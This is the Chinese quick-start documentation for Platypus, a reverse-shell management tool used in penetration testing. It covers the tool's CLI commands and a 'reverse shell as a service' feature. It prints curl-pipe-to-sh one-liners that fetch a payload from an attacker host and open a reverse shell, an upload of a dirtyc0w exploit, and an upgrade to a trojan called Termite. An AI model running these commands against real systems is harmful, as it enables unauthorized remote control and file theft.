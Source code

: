 # 快速上手

!!! Tips
    您可以在[**这里**](https://github.com/WangYihang/Platypus/releases)下载到最新的 Release 版，
    您也可以参考[**这里**](./build.md)直接从源码编译得到 Platypus 的可执行文件。

## 运行

!!! Hint
    这里假设 Platypus 运行在具有公网 IP 的服务器上，其 IP 为 1.3.3.7。

### Linux

```
./platypus_linux_amd64
```
### Windows

```
.\platypus_windows_amd64.exe
```

如果您对 Platypus 的具体启动流程感兴趣，可以参考[本文](./run.md)。

## 与 Platypus 交互

!!! Hint
    Platypus 提供 3 种与之交互的方式。

    * [命令行](./interact/cli.md)
    * [Web 界面](./interact/web.md)
    * [Python SDK](./interact/python-sdk.md)

这里只介绍最基础的**命令行**模式的一些命令。

!!! Hint
    Platypus 对命令的大小写不敏感并且支持 Tab 自动对命令进行补全，您可以输入命令前缀然后按下 ++tab++ 键即可自动补全。

Platypus 的命令行模式支持 `Help`、`List`、`Jump`、`Download`、`Upload` 以及 `Interact` 等命令。

### Help

打印命令的帮助信息。

#### 列出所有受支持的命令

```bash
» Help
```

#### 列出 List 命令的帮助信息

```bash
» Help List
```

### List

列出当前正在监听的服务器以及每一个服务器上存活的 Shell。

```bash
» List
2021/08/11 22:46:10 Listing 2 listening servers
2021/08/11 22:46:10 [9442daedd052d7cdfebc43092a4a3050] is listening on 0.0.0.0:13337, 0 clients
2021/08/11 22:46:10 [1b7fb280df68ceebae36060c938a2ced] is listening on 0.0.0.0:13338, 0 clients
```

### Jump

!!! Tips
    Platypus 会根据配置文件中的[哈希计算模式](./hashing.md)对每一个上线的 Shell 计算哈希，该哈希会作为该 Shell 的唯一标识。

跳转到某一个 Shell 对其进行操作。

例如：

```
» Jump 1b7fb280df68ceebae36060c938a2ced
```

跳转成功后，终端的命令提示符将会修改为当前 Shell 的相关信息。
后续的命令（如：`Interact`）将会直接对当前的 Shell 进行操作。

### Interact

当跳转到某一个 Shell 之后，与之进行交互。

!!! Warning
    * 如果您直接执行 Interact 命令得到的 Shell 将会与 netcat 类似，并非纯交互式 Shell。
    * 如果您想要退出当前正在交互的 Shell，可以直接输入 `exit` 即可返回。
    * 如果您希望得到一个**像 SSH 一样好用丝滑的 Shell** 请参考[本文](./interactive.md)。

### Upload / Download

当跳转到某一个 Shell 之后，上传或下载文件。

#### 上传文件

将 Platypus 当前文件夹下的 `dirtyc0w.c` 上传至当前交互主机的 `/tmp/dirtyc0w.c`。
```bash
» Upload ./dirtyc0w.c /tmp/dirtyc0w.c
```

#### 下载文件

将当前交互主机的 `/tmp/www.tar.gz` 下载至 Platypus 当前文件夹下的 `www.tar.gz` 中。

```bash
» Download /tmp/www.tar.gz ./www.tar.gz
```

## 反弹一个反向 Shell

受到 [lukechilds](https://github.com/lukechilds) 的 [reverse-shell](https://github.com/lukechilds/reverse-shell) 项目的启发，Platypus 支持 Reverse Shell as a Serivce (RaaS)，基本语法与其相同，但增加了一些不同语言的反向 Shell 的 Payload。

您可以直接在目标机器上执行如下命令得到一个反向 Shell，从此不用再记忆各种繁琐的反向 Shell 命令。
如果您希望了解更加高级的 RaaS 的用法，请参考[本文](./../../RaaS.md)。

```bash
curl http://1.3.3.7:13338 | sh
```

### 反弹 Shell 至当前 Platypus（`1.3.3.7:13338`）

```bash
curl http://1.3.3.7:13338 | sh
curl http://1.3.3.7:13338/python | sh
```

### 反弹 Shell 至其他平台（`2.3.3.7:4444`）

```bash
curl http://1.3.3.7:13338/2.3.3.7/4444 | sh
curl http://1.3.3.7:13338/2.3.3.7/4444/ruby | sh
```

反弹成功之后，Platypus 会对新上线的 Shell 进行基础的信息搜集（如：操作系统，用户名等），
当信息搜集结束后，即可利用 Platypus 与之进行交互。

## 升级至 Termite（推荐）

当您已经获得了一个反向 Shell 之后，强烈建议您使用 `Upgrade` 命令将其升级为更稳定可靠并且提供加密机制等其他非常有用的功能的 Termite Shell。

!!! Termite
    Termite 是 Platypus 的二进制木马，提供流量加密、交互式 Shell 等功能。

当您已经使用 `Jump` 命令跳转到目标 Shell 之后，您可以使用 `Upgrade 1.3.3.7:13337` 来将当前的明文 Shell 提升为更加可靠的 Termite，稍等片刻，您将会看到一个带有 `[Encrypted]` 标记的 Shell 上线。

Termite 提供了多种有用功能，如：

* 完全交互式 Shell（使用就像 SSH 一样丝滑），并且可以多人同时启动多个 Shell 而互不影响。
* 4 种不同的[隧道](./tunnel.md)功能
* 更加稳定可靠的文件操作

与 Termite 交互的逻辑与通常的反向 Shell 一致，即：`Jump` 然后 `Interact`。
